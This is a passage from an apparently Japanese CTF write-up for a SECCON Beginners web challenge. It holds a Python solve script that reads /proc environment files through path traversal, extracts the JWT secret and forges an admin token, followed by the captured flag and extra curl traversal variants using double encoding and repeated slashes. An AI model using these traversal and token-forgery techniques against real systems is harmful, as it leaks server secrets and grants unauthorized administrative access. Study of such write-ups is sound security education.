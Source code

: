 ```python
        res = s.send(prep, verify=False, timeout=3)
        res.raise_for_status()
        m = re.search(r"JWT_SECRET_KEY=(.*)SHLVL=", res.text)
        secret_key = m.group(1)[0:32]
        print(secret_key)

        header = {"typ": "JWT", "alg": "HS256"}
        payload = {
            "exp": int(time.time()) + 1000000,
            "Username": "test",
            "IsAdmin": True,
        }
        token = jwt.encode(
            payload=payload,
            key=secret_key,
            algorithm="HS256",
            headers=header,
        )
        print(token)

        cookies = dict(JWT_KEY=token)
        r = requests.get(url, cookies=cookies, timeout=3)
        print(r.text)
        return 0
    except Exception as e:
        print(e)
        return 2


if __name__ == "__main__":
    print(crawl("https://ironhand.quals.beginners.seccon.jp"))
```

`ctf4b{i7s_funny_h0w_d1fferent_th1ng3_10ok_dep3ndin6_0n_wh3re_y0u_si7}`

> Double encoding以外にもNginxの設定で`merge_slashes off`となっていることから`/`の数を増やして
>
> ```
> $ curl --path-as-is "https://ironhand.quals.beginners.seccon.jp/static/..//../proc/self/environ" -o env.txt ; cat env.txt ; rm env.txt
> $ curl --path-as-is "https://ironhand.quals.beginners.seccon.jp/static//../../proc/self/environ" -o env.txt ; cat env.txt ; rm env.txt
> ```
>
> でも取得できます。
>
> 他にも`/proc/self/environ`の`self`は`1`でもOKなので
>
> ```
> $ curl "https://ironhand.quals.beginners.seccon.jp/static/%252e%252e%252f%252e%252e%252fproc/1/environ" -o env.txt ; cat env.txt ; rm env.txt
> $ curl --path-as-is "https://ironhand.quals.beginners.seccon.jp/static/..//../proc/1/environ" -o env.txt ; cat env.txt ; rm env.txt
> ```
>
> でも取得できます。
